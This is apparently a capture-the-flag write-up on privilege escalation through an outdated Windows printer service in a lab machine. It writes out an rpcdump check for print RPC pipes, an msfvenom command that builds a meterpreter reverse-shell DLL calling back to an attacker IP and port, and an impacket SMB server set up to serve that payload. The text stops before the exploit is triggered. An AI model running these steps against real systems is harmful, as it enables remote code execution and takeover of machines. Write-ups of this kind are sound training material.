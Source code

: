## Privilege Escalation
Referring to the initial chat log that stated there was an outdated printer and the hints obtained, I did some research using Google and found a CVE for the vulnerability.

![vuln research](../assets/htr/nightforge/image.png)
_Figure 1. Public Exploit_

Use rpcdump to check if the target RPC pipe is available. If the output looks like the one below, the target is open.

```shell
➜ nightforge rpcdump.py @10.1.2.172 | egrep 'MS-RPRN|MS-PAR'
/home/isaac/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```
{: .nolineno}

Create a reverse shell payload with a dll extension using msfvenom that points to the attacker's IP address and Port.

```shell
➜ nightforge msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.201.137 LPORT=4444 -f dll -o payload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: payload.dll
```
{: .nolineno}

Hosting SMB server using tools from impacket by adding `-smb2support` option to adjust the target version support, `smb` as the name of the shared folder and `.` as the current directory so that the DLL file containing the payload can be retrieved.

```shell
➜ nightforge python3 impacket/examples/smbserver.py -smb2support smb .
/home/isaac/.venv/lib/python3.13/site-packages/impacket/version.py:7: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
```